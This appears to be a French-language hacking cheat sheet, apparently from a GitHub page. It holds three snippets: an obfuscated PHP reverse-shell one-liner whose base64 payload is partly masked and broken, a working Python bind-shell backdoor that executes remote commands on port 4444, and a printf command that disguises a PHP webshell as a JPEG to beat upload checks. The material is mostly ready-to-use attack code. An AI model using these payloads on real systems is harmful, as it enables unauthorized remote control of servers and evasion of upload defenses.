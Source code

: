 Code PHP du reverse shell
```
eval(base64_decode('c3lzdGVtKCJyEtxxxxxxxxxEkgNDQ0NCA+L3RtcC9mIik7='));
```








## Python bind shell

```
import sys,socket,time,re,subprocess,os

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) 
sock.bind(('0.0.0.0',4444))
sock.listen(5)
conn,addr = sock.accept()
conn.send('== YOLO Backdoor ==\n\n>')
while 1:         
    data = conn.recv(1024)
    cmd = data.strip().split(' ')
    if cmd[0] == 'cd':
        os.chdir(cmd[1])
    elif cmd[0] in ('exit'):
        break
    else:
        conn.send(subprocess.check_output(cmd)+'\n>') 
conn.close()
sock.shutdown(socket.SHUT_RDWR)
sock.close()
```








## File upload Webshell : Jpeg

Si vous pouvez upload un fichier jpg, il est possible d'y cacher un webshell.<br/>
Un fichier jpeg est identifié par ses premiers octets qui ont la valeur : ffd8ffe0  <br/>
Pour générer un fichier qui sera identifié comme ayant une entête Jpeg valide:
```
printf &quot;\xff\xd8\xff\xe0&lt?php system('id'); ?>&quot; > webshell.jpg
```

Ce fichier sera reconnu comme un fichier jpg
```
$ file webshell.jpg 
webshell.jpg: JPEG image data
```
